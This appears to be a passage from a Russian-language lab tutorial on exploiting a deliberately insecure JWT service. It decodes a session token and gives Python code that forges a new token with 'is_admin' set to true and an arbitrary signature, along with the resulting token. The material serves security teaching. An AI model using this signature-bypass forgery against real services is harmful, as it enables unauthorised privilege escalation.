 ## Эксплуатация

### Шаг 1

Получаем JWT токен, для этого логинимся на http://jwt_insecure.lab/login

В cookie `session` сервер передает JWT токен.
```
session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc
```

Для наглядности идем [сюда](https://jwt.io/) и декодируем JWT токен.

**Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
**Payload
```json
{
  "username": "user",
  "is_admin": false
}
```

### Шаг 2
 
Генерируем новый JWT токен c измененным `Payload`, у которого `Signature` может быть абсолютно любым.
Для этого можно использовать следующий код:

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print('%s.%s.%s' % (
        b64urlencode('{"typ":"JWT","alg":"RS256"}'), # Header
        b64urlencode('{"username":"user","is_admin":true}'), # Payload
        b64urlencode('secret_signature'), ) # Some signature, not important
)
```

Полученный JWT токен
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6dHJ1ZX0.c2VjcmV0X3NpZ25hdHVyZQ
```
